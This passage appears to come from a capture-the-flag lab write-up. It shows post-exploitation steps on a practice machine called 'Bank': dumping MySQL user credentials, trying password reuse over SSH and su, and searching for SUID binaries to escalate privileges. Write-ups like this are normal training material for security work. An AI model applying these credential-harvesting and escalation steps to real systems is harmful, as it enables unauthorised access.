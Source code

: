 There's a few tables, but `users` looks particularly noteworthy.

#### `users`'s columns

Let's continue our enumeration of this database by checking the content of the
`users` table.

```sh
mysql> SELECT column_type, column_name FROM information_schema.columns WHERE table_name = 'users';
```

```
+--------------+-------------+
| column_type  | column_name |
+--------------+-------------+
| int(11)      | id          |
| varchar(255) | username    |
| varchar(255) | email       |
| varchar(255) | password    |
| varchar(255) | balance     |
+--------------+-------------+
<SNIP>
```

Okay, so this table contains 5 columns.

#### `users`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
mysql> SELECT username, password FROM users;
```

```
+------------------------+----------------------------------+
| username               | password                         |
+------------------------+----------------------------------+
| Christos Christopoulos | b27179713f7bffc48b9ffd2cf9467620 |
+------------------------+----------------------------------+
<SNIP>
```

There's a single password, which corresponds to the one we found
[previously](#exploration-4).

I tried the MySQL password to connect to Bank as `chris` over SSH, but it
failed. I also tried them with `su chris`, but they failed once again. Same for
`root`.

## System enumeration

### SUID

Let's look for SUID binaries.

```sh
www-data@bank:/var/www/bank/uploads$ find "/" -perm -4000 2>"/dev/null"
```
